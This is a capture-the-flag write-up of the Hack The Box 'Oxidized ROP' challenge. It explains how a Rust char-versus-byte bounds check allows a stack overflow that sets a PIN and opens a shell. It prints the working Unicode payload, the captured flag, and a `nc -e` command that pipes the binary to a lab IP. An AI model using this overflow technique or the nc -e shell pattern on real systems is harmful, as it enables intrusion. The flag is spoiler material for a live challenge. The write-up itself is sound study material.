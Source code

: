## Oxidized-ROP

https://app.hackthebox.com/challenges/Oxidized%20ROP

This PWN starts off seeming easily straightforward, then overly difficult (ROP + Unicoding pointers), then easy again once you figure out you wasted a weekend testing something you were absolutely certain about despite having **ZERO** prior experience in Rust.

### Overview

So as you can see by the title of this PWN, "ROP" means return oriented programming. 

<details>
  <summary>Quick disclaimer</summary>
  
  I have no actual experience with ROP exploits.
</details>

<details>
  <summary>Another quick disclaimer</summary>

  This PWN is actually **NOT** a ROP. 
  
  Yeah. 
  
  I don't know why the author titled it this. 
  There exists another vulnerability much easier to exploit. 
  I started Googling and learning all about ROP, but 
  never got to use it. Very anticlimactic...
</details>

<details>
  <summary>TLDR; Payload and flag</summary>
  
  Input this payload into the 'Complete survey' panel:
  ```
  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA𞉀
  ```
  The flag:
  ```
  HTB{7h3_0r4n63_cr4b_15_74k1n6_0v3r!}
  ```
</details>

### Reconnaissance

I started off by looking through the provided `oxidized-rop.rs` file.

The only thing I knew about Rust prior to this are the insane 
safety features. 

At line 48 is an unsafe block. This goes against the safety 
features. The code checks that the argument string is 
less than 200 characters (not bytes).

```rust
fn save_data(dest: &mut [u8], src: &String) {
    if src.chars().count() > INPUT_SIZE {
        println!("Oups, something went wrong... Please try again later.");
        std::process::exit(1);
    }

    let mut dest_ptr = dest.as_mut_ptr() as *mut char;

    unsafe {
        for c in src.chars() {
            dest_ptr.write(c);
            dest_ptr = dest_ptr.offset(1);
        }
    }
}
```

The `save_data(dest: &mut [u8], src: &String)` function is
called by `present_survey(feedback: &mut Feedback)`:

```rust
fn present_survey(feedback: &mut Feedback) {
    // ...
    print!("Statement (max 200 characters): ");
    io::stdout().flush().unwrap();
    let input_buffer = read_user_input();
    save_data(&mut feedback.statement, &input_buffer);
    // ...
}
```

The `Feedback` structure contains an array of 200 bytes:

```rust
const INPUT_SIZE: usize = 200;
const PIN_ENTRY_ENABLED: bool = false;

struct Feedback {
    statement: [u8; INPUT_SIZE],
    submitted: bool,
}
```

Both of `INPUT_SIZE` and `PIN_ENTRY_ENABLED` are const; there are
no means to modify them regardless of exploit. 

As you can see, the `Feedback` structure utilizes bytes, 
however the `save_data(dest: &mut [u8], src: &String)` function
checks for `characters`. This will cause a buffer overflow if
the UTF-8 encoded byte count of the survey input exceeds 200 characters 
(or 800 bytes).

In a basic sense, a stack frame, in order of increasing memory address,
is arranged as such:
- Local variables (Relative positions are tied with their order of declaration)
- Return addresses

We can expect something similar to this with our Rust program:
- 200 bytes for survey array
- 1 boolean for submitted
- 4-bytes for login pin
- Return addresses

```rust
let mut feedback = Feedback {
    statement: [0_u8; 200],
    submitted: false,
};
let mut login_pin: u32 = 0x11223344;
```

This, of course, is not the exact layout (as we'll find out in a 
minute).

### Debugging

I'll be using a Kali VM to debug this program. 

Open the program with EDB `edb --run oxodized-rop`.

I'm not going to go through the specifics, but I set a breakpoint 
immediately after the stack address for the local variable `login_pin`
was set to `0x11223344` during its definition in `main()`:

![text](stack_starting_pin.png).

I did a symbol search for `savedata`, and set a breakpoint 
at the last return of the function,
right after the stack was modified. I continue execution. 

In the console input, I inputted `1` for the survey. 

Generate a pattern with 
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200`
to understand how our input is transformed and overflows:

![text](create_pattern.png)

I pass the generated pattern through the EDB console (a program 
started from the command line with EDB easily allows for console input).

After submitting, the breakpoint triggers, and this is the result:

![text](stack_patterned_pin.png)

This is the point where I began the journey to lose my mind
over the span of a weekend.

I was confused as of why every thing was 4-byte aligned.

I looked at the code, and ***assumed*** that the Rust code
was converting everything to UTF-encoded bytes. In
retrospect, I realize that the inputted characters, UTF-8
characters, were being converted to Unicode codepoints,
basically the ID of the Unicode character.

For some reason `pattern_offset` was unable to locate the offset,
but I easily found the offset to be 122, where the next 4-byte
integer is our pin location.

I started doing tests, such as inputting UTF-8 characters, 
and wondering why there were no signs of UTF-8 bytes anywhere
in the overflowed buffer.

This is where I Googled "Oxidized ROP writeup". The keyword
`ROP` brought up some specific exploits, so I figured this was
the way to do it, with an ROP exploit. I started learning about
ROP exploits, stack manipulation, return pops, ROP gadgets...

Near the end I was getting very angery, so decided to 
ask phind model what was up. I fed it my results of some of 
the stack manipulation, asking why the inputted UTF-8 characters 
were giving these weird but consistent values. It told me 
Unicode codepoints. 

With this sliver of hope, I test a specific payload containing
2 UTF-8 characters near the end (`€ƒ`):
```
a_b.c_d.e_f.g_h.i_j.k_l.m_n.o_p.q_r.s_t.u_v.w_x.y_z.A_B.C_D.E_F.G_H.I_J.K_L.M_N.O_P.Q_R.S_T.U_V.W_X.Y_Za,b.c,d.e,f.g,h.i,j€ƒ
```
I used this website to test characters https://unicode.scarfboy.com/?s=%E2%82%AC%C6%92
![text](unicode_page.png)

![text](stack_unicoded_pin.png)

Sure enough, they matched.

### Weaponization

With this knowledge, I now needed to overwrite the
pin value with 123456 as required by the config function:
```rust
fn present_config_panel(pin: &u32) {
    use std::process::{self, Stdio};
    
    // the pin strength isn't important since pin input is disabled
    if *pin != 123456 {
        println!("Invalid Pin. This incident will be reported.");
        return;
    }
    
    process::Command::new("/bin/sh")
        .stdin(Stdio::inherit())
        .stdout(Stdio::inherit())
        .output()
        .unwrap();
    }
}
```
I need the codepoint for decimal represented `123456`, in hex is
`1E240`.

Searching for U+1E240 on the page brings up this:

I copy the character and prepare my new payload:

![text](123456_unicode_page.png)

I paste this payload into the survey:
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA𞉀
```

Then input 2 to take me to the "config". 

Then do `la -la`:

![text](self_pwned.png)

PWNED. 

Given this is my own VM, it's time to write a Python script to 
do this automatically on the remote HTB server.

### Exploitation

I decided to test things in a backwards sort-of way,
with a Python script that acts as the server on
my Windows machine, and Netcat on Kali as the client.

Make sure your interfaces are correct (I did host-only on VMnet1).
I ran the Python script first, then started the client:
`nc -e /home/kali/oxidized/oxidized-rop 192.168.190.1 2463`

https://github.com/PeriodicSeizures/CTF-Writeups/blob/43046f0deb92135bfaaf3a64b9efcbd6cfb4c1c7/HTB/Challenges/Pwn/Oxidized%20ROP/exploit.py#L33-L41

I experimented with things and used Wireshark to perfect the 
payload and such.

https://github.com/PeriodicSeizures/CTF-Writeups/blob/main/HTB/Challenges/Pwn/Oxidized%20ROP/exploit.pcapng

Feel free to experiment with the script as I added some debug
stuff during my tests that are commented out.
